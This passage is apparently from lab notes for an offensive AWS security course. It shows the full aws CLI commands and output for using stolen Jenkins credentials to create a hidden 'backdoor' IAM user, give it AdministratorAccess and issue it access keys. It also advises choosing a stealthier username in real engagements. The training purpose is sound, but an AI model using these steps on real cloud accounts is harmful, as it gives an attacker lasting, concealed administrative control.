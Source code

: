 - Next, let's create a backdoor account instead of using the jenkins-admin account. While still specifying the Jenkins credentials (**--profile CompromisedJenkins**), we'll run the **iam create-user** subcommand and pass in the username with **--user-name backdoor**.
> In this example, we'll set the username as backdoor. However, in a real world engagement, we would choose a stealthier username, such as terraform-admin.

```bash
aws --profile CompromisedJenkins iam create-user --user-name backdoor # Below is output
{
    "User": {
        "Path": "/",
        "UserName": "backdoor",
        "UserId": "AIDA55D2EIRFBAXTPPC6G",
        "Arn": "arn:aws:iam::955886355530:user/backdoor",
        "CreateDate": "2024-12-25T20:11:56+00:00"
    }
}
```
- Next, we'll attach the AWS managed [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_job-functions.html#jf_administrator) policy. We'll do this by using the iam attach-user-policy subcommand, providing the username with --user-name. We'll also specify the ARN of the AdministratorAccess policy by using the --policy-arn arn:aws:iam::aws:policy/AdministratorAccess argument.
```bash
aws --profile CompromisedJenkins iam attach-user-policy  --user-name backdoor --policy-arn arn:aws:iam::aws:policy/AdministratorAccess # No output
```
- Next, we need to create the access key and secret key for the user. We'll use the **iam create-access-key** subcommand.
```bash
aws --profile CompromisedJenkins iam create-access-key --user-name backdoor  # Below output                                  
{
    "AccessKey": {
        "UserName": "backdoor",
        "AccessKeyId": "AKIA55D2EIRFGFHSOIG#", # # as V
        "Status": "Active",
        "SecretAccessKey": "8EoHbsCjEEWhW6M1jlj8ra6opvvuAKQ2qI8WJS#l",  # # as j
        "CreateDate": "2024-12-25T20:16:27+00:00"
    }
}
```
- Finally, we'll configure a new profile in our AWS CLI with the newly-obtained credentials. We'll confirm everything works by listing the attached user policies by using the iam list-attached-user-policies subcommand.
```bash
kali@kali:~/HTB/aws$ aws configure --profile=backdoor                                            
AWS Access Key ID [None]: AKIA55D2EIRFGFHSOIG# # # as V
AWS Secret Access Key [None]: 8EoHbsCjEEWhW6M1jlj8ra6opvvuAKQ2qI8WJS#l # # as j
Default region name [None]: us-east-1
Default output format [None]: json           
```
- iam list-attached-user-policies
```bash
aws --profile backdoor iam list-attached-user-policies --user-name backdoor  # Below is output
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```
- Lab: Discover the flag in the ec2 instance tag.
```bash
```